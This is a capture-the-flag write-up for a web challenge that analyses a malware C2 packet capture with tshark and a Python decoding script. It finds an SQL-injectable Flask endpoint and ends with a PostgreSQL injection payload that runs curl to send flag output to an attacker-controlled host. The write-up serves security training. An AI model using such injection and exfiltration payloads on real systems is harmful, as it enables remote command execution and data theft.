

### Name: Debugger Unchained
#### Difficulty: Easy
#### Category: Web
Description:
> Our SOC team has discovered a new strain of malware in one of the workstations. They extracted what looked like a C2 profile from the infected machine's memory and exported a network capture of the C2 traffic for further analysis. To discover the culprits, we need you to study the C2 infrastructure and check for potential weaknesses that can get us access to the server.

---

In the zip file, we are given two files:

The `c2.profile` file looks like a profile that someone would use for their command and control server.
Exploring the packet capture `traffic.pcapng`, we see that there is a lot of HTTP traffic. On further analysis, we see that there were requests to `/assets/jquery-3.6.0.slim.min.js`. Some were POST requests and some were GET requests.

Also, these requests include some special cookies: `__cflb` and `__cfuid`. These looked like some base64 encoded JSON.


I used `tshark` to extract the two cookies into seperate files with the following command.

Extract `__cfuid` cookie:
```sh
tshark -r traffic.pcapng -Y 'http.cookie' -z 'proto,colinfo,http.cookie,http.cookie' | grep __cfuid | cut -d ';' -f 2 | sed 's/"//g' > __cfuid.txt
```

Extract `__cflb` cookie:
```sh
tshark -r traffic.pcapng -Y 'http.cookie' -z 'proto,colinfo,http.cookie,http.cookie' | grep __cflb | cut -d ';' -f 1 | cut -d '"' -f 2 > __cflb.txt
```

I wrote a quick script to extract the contents of these base64 values.
```py
#!/usr/bin/env python3

import json, base64
import colorama

lines = []
with open('__cfuid.txt', 'r') as cfuid:
	for line in cfuid.readlines():
		lines.append(line.strip())

def extract_info(line):
	m0 = line.replace('__cfuid=','')
	m0 = m0
	m1 = base64.b64decode(m0)
	id, output = (json.loads(m1)['id'], json.loads(m1)['output'])
	
	m2 = base64.b64decode(output)
	print(m2.decode())

counter = 0
for line in lines:
	try:
		extract_info(line)
		counter += 1 
	except:
		print(f'{colorama.Fore.RED}Counter {counter} failed{colorama.Fore.RESET}')
```

It looks like output from commands.


Another interesting thing that we found was that in the response to the GET requests, there was a parameter called `task` which included similar base64 encoded strings.


I used tshark again to extract these from the packet capture:


Checking these, we can see that it was actually used to send commands from the c2 server to the victim client.


The commands and outputs did not help much for now. While checking the responses, we saw that there were two Status 500 responses also.


It seems from the output that the application backend is using python's Flask. 
Checking on the other 500 response message, it reveals more about the application.

Let's copy the request to burpsuite and it to see it's contents on our browser.
We need to change the host to that of the challenge instance.


Use burpsuite's show response in browser to view it comfortably in browser.

It can be seen that the value of `output` and `task_id` are directly being passed into the SQL query.
```python
db.execute(f"""INSERT INTO task_outputs(output, task_id) VALUES ('{output}', {id})""")
```
The cookie `__cfuid` is sending the following content:

So, if we include a SQLi payload in the cookie and send a POST request to that endpoint, we will be able to perform the injection. I used the [hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension to encode the cookie in burp repeater.
From enumerating the database with the sql injection, it was identified that they are using postgresql.
The final payload was:
```json
{"id": 1, "output": "U3', 132454); copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`/readflag|base64`'-- -"}
```
Don't forget to encode it to base64 if you're not using this extension.

